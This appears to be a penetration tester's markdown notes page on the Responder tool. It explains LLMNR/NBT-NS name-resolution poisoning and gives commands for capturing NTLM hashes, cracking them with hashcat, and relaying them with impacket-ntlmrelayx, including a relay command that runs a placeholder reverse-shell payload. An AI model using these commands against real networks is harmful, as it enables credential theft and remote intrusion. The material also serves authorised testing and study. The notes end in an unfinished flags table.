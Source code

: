 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Responder is an LLMNR, NBT-NS, and MDNS poisoner tool with build in rogue authentication server deployment. The auth servers can be used to steal NTLM & LM hashes, HTTP basic auth etc. Responder will listen on protocol ports and then response on behalf of the servers the victim is looking for and capture their credentials/hashes.

Supports dual IPv6/IPv4 stack.

- *SMB* Auth server supports *NTLMv1*, and *NTLMv2* hashes with Extended Security NTLMSSP. Supports SMBv2 by default.
- *MSSQL* Auth server supports *NTLMv1*, *LMv2* hashes.
- *HTTP(S)* Auth servers supports *NTLMv1*, *NTLMv2* hashes and *Basic Authentication*. HTTPS comes with a dummy set of keys but can generate new PKI pairs.
- *LDAP* Auth server supports *NTLMSSP* and *Simple Auth* (Plaintext authentication)
- *DCE-RPC* Auth server supports *NTLMSSP* hashes
- *FTP* Auth server supports clear text credentials
- *POP3* Auth server supports clear text credentials
- *IMAP* Auth server supports clear text credentials
- *SMTP* Auth server supports clear text credentials
- *DNS* Server will answer `SRV` and `A` queries (useful for ARP spoofing)
- *WPAD* Proxy server can inject HTML into responses for IE clients if configured with `Auto-detect settings` enabled

A Name Resolution (NR) example:
1. A machine tries to get the IP of a file share
2. The local host file is checked first
3. The local DNS cache is checked next
4. The remote DNS will be queried if it still hasn't found the IP
5. Finally, it would try sending a multicast query to all machines on the network requesting the IP address
6. This final step is where responder would answer with its malicious server's address (making the victim falsely trust the malicious server)
> This could happen if a user simply mistyped the share name for instance.
## Installation
Git clone: https://github.com/lgandx/Responder
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/lgandx/Responder
## Usage
### Default poisoning
```bash
$ python3 Responder.py -I <interface_name>
$ python3 Responder.py -I eth0
```

Hashes are located in the logs `/usr/share/responder/logs/`, we can crack the hashes with `hashcat -m 5600` for `NetNTLMv2`.

We can also perform a hash relay to impersonate the user with the real server. We can use [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py).
> Before using these, we need to disable SMB for our responder so we don't intercept our own requests. (`/etc/responder/Responder.conf`)

```bash
# By default it will dump the SAM db
$ impacket-ntlmrelayx --no-http-server -smb2support -t [target_smb_server]

# -c can be added to execute commands - https://www.revshells.com/
$ impacket-ntlmrelayx --no-http-server -smb2support -t [target_smb_server] -c '<example_b64_ps_rev_shell>'
```

### Analyse only mode
This allows us to view NBT-NS, BROWSER, and LLMNR requests without responding
```bash
sudo responder -I <interface> -A
sudo responder --interface <interface> --analyze
```

### Useful Flags

| Flag | Summary                                                                                                     | Use case                                                                               |
| :--: | ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
|  -A  | Analysis mode, will display if any NBT-NS, BROWSER, and LLMNR requests are being made but won't poison them | Useful if we want to remain passive on the network and not disrupt the flow of traffic |
|  -w  | Will start the WPAD ()                                                                                      |                                                                                        |

